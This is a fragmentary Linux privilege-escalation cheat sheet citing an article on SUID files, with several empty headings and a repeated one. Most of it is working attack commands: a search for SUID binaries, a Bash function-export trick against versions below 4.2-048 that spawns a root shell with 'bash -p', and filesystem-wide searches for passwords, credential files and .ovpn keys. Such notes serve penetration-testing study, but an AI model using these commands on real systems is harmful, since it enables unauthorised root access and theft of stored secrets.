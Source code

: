 https://medium.com/go-cyber/linux-privilege-escalation-with-suid-files-6119d73bc620

### Shared Object Injection

### Environment Variables
### Abusing Shell Features 

If condition 1 and 2 are met, 

**Condition 1**

SUID executables have an absolute path `/usr/sbin/service` check the output of both commands and find the common file path


	grep --color=auto -rnw '/' -ie "/usr/sbin/service" --color=always 2> /dev/null

	find / -type f -perm -04000 -ls 2>/dev/null

Example `/usr/local/bin/suid-env2`

**Condition 2**

Bash versions <4.2-048

`/bin/bash --version`

If yes, run

```
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```

then run the SUID executable

example `/usr/local/bin/suid-env2`


### Abusing Shell Features 
## Password and Keys
### All files

**Look for a keyword in all files**

Look for "PASSWORD" ignore caps - Long output

`grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null`

`find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;`

**Look for a file with a file name**

`find / -name **.ovpn 2> /dev/null | more`
`find / -name *password* 2> /dev/null | more`
`find / -name *cred* 2> /dev/null | more`

### History Files
